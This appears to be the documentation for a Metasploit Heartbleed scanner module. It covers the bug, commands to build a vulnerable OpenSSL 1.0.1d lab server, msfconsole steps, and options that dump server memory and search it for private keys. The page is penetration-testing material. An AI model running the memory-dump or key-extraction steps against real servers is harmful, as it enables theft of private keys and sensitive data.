 
## Vulnerable Application

The heartbleed bug was extremely well [documented](http://heartbleed.com), but essentially boils down to a client being able to specify
how much memory is retrieved from the server when performing a TLS heartbeat.  This results in an arbitrary memory read, where an attacker
is able to read the contents of memory.

### Install OpenSSL 1.0.1d on Ubuntu 18.04

The following commands will download OpenSSL 1.0.1d, build and install it.
Finally, we'll use the built in `s_server` to start the service to be scanned.
`install_sw` is used to prevent an `install` [error](https://askubuntu.com/questions/454575/error-255-when-trying-to-install-openssl-1-0-1g-from-source). 

```
sudo apt-get install build-essential
wget https://www.openssl.org/source/old/1.0.1/openssl-1.0.1d.tar.gz
tar -zxf openssl-1.0.1d.tar.gz && cd openssl-1.0.1d
./config
sudo make
sudo make install_sw
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
/usr/local/ssl/bin/openssl s_server -key key.pem -cert cert.pem -accept 44330 -www
```

If you receive `gethostbyname failure` error in `openssl`, add the client (metasploit)
IP and hostname to your hosts file.

## Verification Steps

  1. Install a vulnerable OpenSSL, start the service
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/ssl/openssl_heartbleed```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set action [ACTION]```
  6. Do: ```run```

## Options

  **Action**

  * SCAN: Scan the host to see if it is vulnerable.  If `verbose` is set to `true`, also print the memory that was dumped.  This is the default.
  * DUMP: Dump the memory and store it as loot.
  * KEYS: Similar to DUMP but scan the results for the private key.

  **TLS_CALLBACK**

  Protocol to use if a specific underlying protocol is required.  Default is `None`.

  **TLS_VERSION**
